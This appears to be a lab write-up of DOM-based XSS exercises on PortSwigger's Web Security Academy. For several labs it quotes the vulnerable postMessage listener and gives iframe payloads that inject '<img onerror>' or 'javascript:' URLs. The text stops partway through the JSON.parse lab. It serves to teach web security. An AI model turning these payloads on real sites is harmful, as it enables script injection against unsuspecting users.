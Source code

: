 POC of a DOM-based exploits:

```
<iframe src="//vulnerable-website" onload="this.contentWindow.postMessage('print()','*')">
```

### DOM XSS using web messages

Source code reveals:

```
window.addEventListener('message', function(e) {
    document.getElementById('ads').innerHTML = e.data;
})                 
```

Solution:

```
<iframe src="https://0a820001043a5362c1d6c170003800f5.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

### Lab: DOM XSS using web messages and a JavaScript URL

Calling Javascript with href as seen [here](https://stackoverflow.com/questions/4163879/call-javascript-function-from-url-address-bar)

Source code reveals:

```
window.addEventListener('message', function(e) {
    var url = e.data;
    if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
        location.href = url;
    }
}, false);
```

Solution:

```
<iframe src="https://0a11009203718b5ac097769500370007.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

### Lab: DOM XSS using web messages and JSON.parse

JSON needs to be in double quotes, as seen [here](https://teamtreehouse.com/community/do-json-property-names-really-need-to-be-in-double-quotes-is-this-an-old-requirement#:~:text=Properties%20in%20JSON%20have%20to,at%20all%20is%20not%20allowed.)

Source code reveals:

```
window.addEventListener('message', function(e) {
  var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
  document.body.appendChild(iframe);
  try {
      d = JSON.parse(e.data);
  } catch(e) {
      return;
  }
  switch(d.type) {
      case "page-load":
          ACMEplayer.element.scrollIntoView();
          break;
      case "load-channel":
          ACMEplayer.element.src = d.url;
          break;
      case "player-height-changed":
```
